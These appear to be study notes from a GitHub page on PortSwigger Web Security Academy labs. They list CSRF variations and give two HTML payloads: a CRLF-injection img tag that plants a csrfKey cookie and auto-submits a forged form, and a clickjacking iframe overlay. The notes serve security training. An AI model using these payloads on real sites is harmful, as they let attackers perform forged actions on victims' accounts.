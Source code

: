 <h1 align="center">Portswigger</h1>
<p align="center">This page is about portswigger.net</p>

See more:

https://portswigger.net/web-security

## Variations of Cross-site request forgery (CSRF)
* CSRF where token validation depends on request method
* CSRF where token validation depends on token being present
* CSRF where token is not tied to user session
* CSRF where token is tied to non-session cookie
* CSRF where token is duplicated in cookie
* CSRF where Referer validation depends on header being present
* CSRF with broken Referer validation

### CSRF where token is tied to non-session cookie
#### Two actions in just one open

Adversaries craft a web form with some values and inject a cookie that's is related to those values given. But the adversaries need to do that in just one step.

Find a place in the website that returns something, add the link in the "src" atributte of a _img_ tag with a Set-Cookie instructions to inject a cookie in the victim's browser. Then make a submit of the form through _onerror_ atributte.

```html
<img src="https://URL/?search=test%0D%0ASet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" --action #1 - inject a needed cookie
  onerror="document.forms[0].submit()"> -- action #2 - submit
```
As the content of "src" attribute is invalid (it set a cookie on client's browser), the content of "onerror" (a submit) will execute in sequence.

%3B = ";"

##### With CRLF (%0D%0A) Injection: 

_When a browser sends a request to a web server, the web server answers back with a response containing both the HTTP response headers and the actual website content, i.e. the response body. The HTTP headers and the HTML response (the website content) are separated by a specific combination of special characters, namely a carriage return and a line feed. For short they are also known as CRLF (%0D%0A). The web server uses the CRLF to understand when new HTTP header begins and another one ends._

See more: https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a

## Clickjacking

```html
<style>
    iframe {
        position:relative;
        width: 750px;
        height: 550px;
        opacity: 0.1 -- to 0.0001
        z-index: 2;
    }
    div {
        position: absolute;
        top: 500;
        left: 60;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```
